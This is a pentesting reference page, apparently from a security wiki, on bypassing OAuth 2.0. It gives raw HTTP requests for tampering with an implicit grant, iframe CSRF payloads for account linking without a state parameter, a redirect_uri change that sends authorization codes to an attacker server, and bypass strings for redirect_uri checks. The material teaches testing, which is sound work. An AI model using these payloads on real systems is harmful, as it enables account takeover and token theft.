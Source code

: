 # OAuth 2.0 Bypass

## Introduction

OAuth is a commonly used authorization framework that enables websites and web applications to request limited access to a user's account on another application. Crucially, OAuth allows the user to grant this access without exposing their login credentials to the requesting application.

## Vulnerabilities in the OAuth client application

Client applications will often use a reputable, battle-hardened OAuth service that is well protected against widely known exploits. However, their own side of the implementation may be less secure.

### **Improper implementation of the implicit grant type**

Once the OAuth 2.0 flow is completed and the token is assigned, the information is sent to the application \(username, email and the token\). We can bypass the authentication by changing the email and username of the request:

```text
# Original Request

POST /authenticate HTTP/1.1
Host: oauth-test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https:/oauth-test.com/oauth-callback
Content-Type: application/json
Origin: https://app-test.com
Content-Length: 103
Connection: close
Cookie: session=Pjx1J1HBlOKuYpE6ngdvP0lwKrc6N6xn


{
    "email":"user@test.com",
    "username":"user",
    "token":"0Uk8oyhR95JLrFnDdsgFBcHdcH1Tcz8GmLoZe6ECOAi"
}
```

```text
# Edited Request

POST /authenticate HTTP/1.1
Host: oauth-test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https:/oauth-test.com/oauth-callback
Content-Type: application/json
Origin: https://app-test.com
Content-Length: 103
Connection: close
Cookie: session=Pjx1J1HBlOKuYpE6ngdvP0lwKrc6N6xn


{
    "email":"another@test.com",
    "username":"another",
    "token":"0Uk8oyhR95JLrFnDdsgFBcHdcH1Tcz8GmLoZe6ECOAi"
}
```

### **Flawed CSRF protection \(no state parameter\)**

Although many components of the OAuth flows are optional, some of them are strongly recommended unless there's an important reason not to use them. One such example is the `state` parameter.

The `state` parameter should ideally contain an unguessable value, such as the hash of something tied to the user's session when it first initiates the OAuth flow. This value is then passed back and forth between the client application and the OAuth service as a form of [CSRF token](https://portswigger.net/web-security/csrf/tokens) for the client application. 

Since this state parameter is not available in the request we can link our profile media to an existing account by exploiting a CSRF attack:

```text
# CSRF vulnerable request

GET /oauth-linking?code=FIKlXwX7-cq6Xz0nsWmYUhqu1rwrRmKL9haVHOA7zVv HTTP/1.1
Host: app.test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://exploit.test.com/exploit
Cookie: session=4UxlhSNG2r19csEDsUySJwHtVPSyE4eE
Upgrade-Insecure-Requests: 1


```

Payload:

```text
# index.html

<iframe src="https://app.test.com/oauth-linking?code=FIKlXwX7-cq6Xz0nsWmYUhqu1rwrRmKL9haVHOA7zVv">
</iframe>
```

### Leaking authorization codes and access tokens

Depending on the grant type, either a code or token is sent via the victim's browser to the `/callback` endpoint specified in the `redirect_uri` parameter of the authorization request. If the OAuth service fails to validate this URI properly, an attacker may be able to construct a CSRF-like attack, tricking the victim's browser into initiating an OAuth flow that will send the code or token to an attacker-controlled `redirect_uri`.

In the case of the authorization code flow, an attacker can potentially steal the victim's code before it is used. They can then send this code to the client application's legitimate `/callback` endpoint \(the original `redirect_uri`\) to get access to the user's account.

```text
# CSRF Vulnerable Request
# Modify the redirect_uri to a coontrolled server

GET /auth?client_id=zg8andmpp2lfjqidng0tr&redirect_uri=https://myserver.com/evil&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-server.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _session=7rn_lI1PoVH0bMKi3_Cmq; _session.legacy=7rn_lI1PoVH0bMKi3_Cmq
Upgrade-Insecure-Requests: 1
```

Payload:

```text
#index.html

<iframe src="https://oauth-server.example.com/auth?client_id=zg8andmpp2lfjqidng0tr&redirect_uri=https://myserver.com/evil&response_type=code&scope=openid%20profile%20email">
</iframe>
```

## **Pentesting OAuth 2.0**

### **redirect\_uri validation**

`redirect_uri` parameter should be validated via white list, but sometimes is misconfigured and leads to flaws and vulnerabilities. Things to check: 

* Try to remove or add arbitrary paths, query parameters, and fragments to see what you can change without triggering an error.
* Try to  append extra values to the default `redirect_uri` parameter: `https://example.com &@foo.evil.com#@bar.evil.com/` .
* Try duplicate `redirect_uri` parameter.
*  Begin with `localhost` : `http://localhost.evil.com/`.



## References

* [https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)

